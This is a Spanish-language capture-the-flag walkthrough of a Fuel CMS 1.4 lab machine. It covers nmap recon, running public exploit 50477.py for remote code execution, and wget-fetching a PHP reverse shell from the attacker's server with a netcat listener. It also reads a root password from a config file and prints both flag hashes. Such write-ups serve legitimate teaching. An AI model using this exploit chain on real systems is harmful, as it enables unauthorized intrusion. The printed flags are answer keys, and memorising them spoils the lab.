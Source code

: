 # 1) Objetivo

En esta máquina de pentesting web debemos encontrar la flag user.txt y root.txt.

## 2) Reconocimiento y obtener acceso

Lo primero que haremos será usar Nmap para descubrir los puertos abiertos en la máquina y los servicios que corren. Usamos:

```
nmap -sV -A -T4 
```

Mientras se ejecuta nmap, probamos por si existiera un archivo robots.txt y tuviera información interesante. Vemos que nos aparece un directorio llamado /fuel/ el cual no quieren que sea indexado.

![](IMG/Pasted%20image%2020250310220737.png)

Terminado nmap, nos muestra que tenemos abierto el puerto 80, que está corriendo un servidor web con un CMS llamado fuel, y también nos muestra que hay un archivo robots.txt.

![](IMG/Pasted%20image%2020250310220934.png)

Probamos a acceder al directorio /fuel que nos aparece tanto en el archivo robots.txt como en el resultado de nmap, y vemos que hay una pantalla de login, como no tenemos ninguna credencial, poco podemos hacer.

![](IMG/Pasted%20image%2020250310221336.png)

si echamos un vistazo a la pagina principal, encontramos un nombre de usuario y una contraseña para acceder al panel de administración.

![](IMG/Pasted%20image%2020250310221600.png)

probamos a acceder, y podemos sin problema alguno.

![](IMG/Pasted%20image%2020250310221700.png)

Si echamos un vistazo a la documentación, descubrimos que la versión del CMS es la 1.4.

![](IMG/Pasted%20image%2020250310221751.png)

Con esta información, probamos a buscar algún exploit que nos permita obtener acceso en searchsploit (porque de primeras he buscado en metasploit, pero no había ninguno). 

```
searchsploit fuel cms
```

![](IMG/Pasted%20image%2020250310223401.png)

Y descargamos el 50477.py que es un exploit para php.

```
searchsploit -m php/webapps/50477.py
```

![](IMG/Pasted%20image%2020250310233236.png)

Una vez descargado, lo ejecutamos, desde el directorio donde lo hemos descargado.

```
python3 50477.py -u http://10.10.201.54
```

![](IMG/Pasted%20image%2020250311005558.png)

Lo cual nos ha dado una shell en la maquina objetivo, buscaremos la flag de usuario, ya que de momento solo tenemos esos privilegios. Como suponemos que estará en la carpeta home del usuario, primero comprobamos con pwd donde nos encontramos, y luego iremos navegando hasta el directorio home.

![](IMG/Pasted%20image%2020250311005821.png)

Como la shell que tenemos es muy básica, una vez encontremos la ruta donde se encuentra el archivo con la flag, lo abriremos directamente.

![](IMG/Pasted%20image%2020250311010114.png)

**user.txt (flag.txt): 6470e394cbf6dab6a91682cc8585059b**

# 3) Escalada de privilegios

Ya hemos conseguido acceso con permisos de usuario, ahora, trataremos de escalar los privilegios para obtener permisos root. Para hacer esto, usaremos una shell reversa de pentestmonkey que podemos descargar de [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Una vez tenemos descargado el archivo, lo modificaremos para añadir la ip de nuestra máquina atacante y el puerto por el que queremos que se conecte la shell reversa.

![](IMG/Pasted%20image%2020250311011036.png)

Una vez modificado, como tenemos acceso a la máquina con la shell que hicimos con el exploit, vamos a enviarle este archivo usando wget. así que primero tenemos que crear un servidor web, para que la maquina objetivo pueda descargar el archivo, usaremos en nuestra máquina atacante:

```
python3 -m http.server 80
```

![](IMG/Pasted%20image%2020250311011246.png)

Ahora, usando la shell que tenemos de la máquina objetivo, usamos wget para descargar el archivo.

```
wget http://10.8.16.0/php-reverse-shell.php
```

Veremos que se ha descargado correctamente.

![](IMG/Pasted%20image%2020250311011534.png)

Ahora que ya tenemos el archivo en la máquina objetivo, podemos parar el servidor web que habíamos iniciado, y ahora usaremos netcat para poner a la escucha en el puerto 4444 y así poder recibir la shell reversa cuando la ejecutemos.

```
nc -lvnp 4444
```

![](IMG/Pasted%20image%2020250311011741.png)

Con el puerto a la escucha, usamos el navegador para ejecutar el archivo que tenemos en la maquina objetivo.

![](IMG/Pasted%20image%2020250311011910.png)

Y veremos que hemos recibido la shell reversa.

![](IMG/Pasted%20image%2020250311011940.png)

Como esta shell no es interactiva, no podremos hacer root, así que podemos usar python para conseguir una shell bash, así:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Y ahora sí, tendremos una shell interactiva.

![](IMG/Pasted%20image%2020250311012142.png)

Ahora, usando "su root", deberíamos poder obtener privilegios de root, pero no tenemos la contraseña de root, así que debemos buscarla. Si recordamos, en la pagina principal había instrucciones para configurar el CMS, y entre esas instrucciones nos indicaba donde estaba el archivo de configuración de la base de datos, así que vamos a echarle un vistazo al archivo para ver si está la contraseña de root.

![](IMG/Pasted%20image%2020250311012539.png)

Navegaremos hasta la ruta que nos indican y abriremos el archivo de configuración, una vez abierto, encontraremos la contraseña de root, la cual es mememe

![](IMG/Pasted%20image%2020250311012945.png)


> [!NOTE]
> Todo este proceso, realmente podríamos haberlo hecho antes, pero bueno, en este caso el orden de los factores no altera el producto.


Ahora que ya tenemos la contraseña de root, sí podemos hacer:

```
su root
mememe
```

![](IMG/Pasted%20image%2020250311013309.png)

Y ahora, solo tendremos que buscar la flag y abrir el archivo para encontrar la respuesta.

![](IMG/Pasted%20image%2020250311013423.png)

**Root.txt: b9bbcb33e11b80be759c4e844862482d**